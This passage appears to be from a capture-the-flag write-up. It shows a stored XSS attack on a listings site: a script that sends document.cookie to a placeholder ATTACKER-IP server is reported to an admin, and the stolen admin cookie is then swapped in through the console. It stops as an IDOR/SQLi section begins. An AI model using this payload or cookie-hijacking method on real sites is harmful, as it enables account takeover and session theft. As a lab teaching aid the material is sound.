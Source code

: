 ![session-cookie](document-cookie.png)

The plan is as follows:
1. Open a **python http server**:

    ```bash
    python -m http.server 12345
    ```

2. Create a new listing with code that will **steal another user's cookie and sent it back to us**.

    ```javascript
    <script>fetch("http://ATTACKER-IP:12345/"+document.cookie)</script>
    ```

    ![cookie-stealer](cookie-stealer.png)

3. Now, we need a way to **"force" an admin to interact with our listing**. That is because we want the code to be executed on the admin's browser, and not ours. This is where the reporting hint comes handy. We can create a new listing, report it, and then an admin should come and review it.

    ![report-to-admin](report-to-admin.jpg){: width="50%"}

4. When we click *Report*, we get a message *From System* saying among others: "*One of our admins will evaluate...*". We should have received our session cookie on the python server by now. After a few seconds, we refresh the page, and we have a new message that our post has been reviewed. Alongside that, we also got the admin's cookie!

    ![admin-cookie](admin-cookie.png)

    > Don't get confused because the port is showing as `8888` instead of `12345`. I just had to restart and ended up using another port!

5. All we have to do now, is swapping our cookie with admin's cookie. We can do that via the brower's console:

    ```javascript
    // we need to allow pasting, so we can paste our cookie
    allow pasting
    // set cookie with the value of the admin's cookie
    document.cookie="token=ADMIN_COOKIE"
    ```

    ![cookie-swap](cookie-swap.png)

6. Once we refresh the page, the **Administration panel** appears, which includes our first 🚩🍻!

    ![admin-panel](admin-panel.jpg)

### 3.2 IDOR & SQLi

When clicking on the different users, the address bar changes as follows: `/admin?user=`. So, we have the parameter `?user` to play with, which we can check if it is susceptible to an **IDOR vulnerability**.
